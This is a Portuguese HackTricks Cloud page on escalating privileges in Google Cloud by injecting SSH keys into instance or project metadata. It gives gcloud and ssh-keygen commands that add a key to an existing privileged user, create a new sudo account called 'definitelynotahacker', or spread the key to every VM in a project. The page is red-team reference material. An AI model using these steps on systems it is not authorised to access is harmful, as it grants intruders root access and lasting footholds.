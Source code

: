# GCP - Adicionar Metadados SSH Personalizados

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos significativos de segurança se um atacante obtiver as permissões necessárias**.

### **Incorporação de Chaves SSH nos Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Ambiente de Hóspede Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um atacante puder modificar os metadados personalizados, ele poderia fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada no sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o atacante poderá comprometer o host.

### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existente na Instância:**
- Execute o comando para descrever a instância e seus metadados para localizar as chaves SSH existentes. A seção relevante na saída estará em `metadata`, especificamente na chave `ssh-keys`.
```bash
gcloud compute instances describe [INSTÂNCIA] --zone [ZONA]
```
- Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separado por dois pontos.

2. **Preparar um Arquivo de Texto para Metadados de Chave SSH:**
- Salve os detalhes dos nomes de usuários e suas chaves SSH correspondentes em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes ao adicionar novas.

3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
- Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.

4. **Atualizar os Metadados de Chave SSH da Instância:**
- Aplique os metadados de chave SSH atualizados à instância usando o comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTÂNCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acessar a Instância Usando a Nova Chave SSH:**
- Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH a nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem aplicando **chaves SSH a nível de projeto**. Esta abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em todo o projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH a Nível de Projeto:**
- Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH do arquivo `meta.txt` aos metadados do projeto. Esta ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em todo o projeto" habilitada.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acessar as Instâncias Usando Chaves em Todo o Projeto:**
- Com as chaves SSH em todo o projeto configuradas, você pode acessar as instâncias dentro do projeto via SSH. As instâncias que não bloqueiam as chaves em todo o projeto aceitarão a chave SSH, concedendo acesso.
- Um método direto para acessar uma instância é usando o comando `gcloud compute ssh [INSTÂNCIA]`. Este comando utiliza seu nome de usuário atual e as chaves SSH definidas no nível do projeto para tentar o acesso.


# Referências
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
